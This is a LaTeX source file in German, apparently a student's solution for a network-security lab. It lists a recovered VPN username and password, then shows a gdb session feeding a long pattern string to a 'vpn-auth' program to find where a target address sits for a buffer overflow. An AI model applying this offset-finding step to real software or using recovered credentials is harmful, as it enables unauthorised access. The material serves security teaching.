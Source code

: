 \documentclass[12pt]{article}
\begin{document}
\paragraph{Lösung}
\begin{itemize}
	\item Wie lauten die Zugangsdaten zum geheimen Netzwerk?  \\
		Der Benutzername lautet \emph{simpleVpn} und das Passwort lautet \emph{chahz1Ah}.
\end{itemize}


\begin{lstlisting}[caption={Suche nach der Position der Zieladresse},label=aimaddressPlace]
hanatos@advinetsec-ss11-shellaccts:~/vpn$ gdb vpn-auth
GNU gdb 6.8-debian
Copyright (C) 2008 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses
/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show 
copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu"...
(gdb) start aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890
ccccddddee!!!!ffgggghhhhiiiijjjjkkkkllllmmmmbbbbbbbbbbbbbb
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
Breakpoint 1 at 0x80485bf
Starting program: /home/thanatos/vpn/vpn-auth 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890
ccccddddee!!!!ffgggghhhhiiiijjjjkkkkllllmmmmbbbbbbbbbbbbbb
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb


\end{lstlisting}
\end{document}
